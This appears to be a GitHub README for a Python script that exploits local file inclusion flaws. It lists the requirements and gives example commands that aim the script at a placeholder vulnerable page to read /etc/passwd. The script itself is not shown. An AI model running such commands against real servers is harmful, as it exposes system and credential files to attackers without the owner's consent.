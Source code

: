 # LFI Exploit Script

A simple Python script to exploit Local File Inclusion (LFI) vulnerabilities using GET or POST requests.

## Usage

The script sends an LFI payload to a vulnerable URL with a specified parameter.

### Requirements
- Python 3.11+
- `requests` library (install via `pip install requests`)
- `paramiko` library (install via `pip install paramiko`)

### Running the script

#### POST request (default)
```bash
python lfi.py http://example.com/vuln_page.php param /etc/passwd POST
```

#### GET reqeust
```bash
python lfi.py http://example.com/vuln_page.php param /etc/passwd GET
```
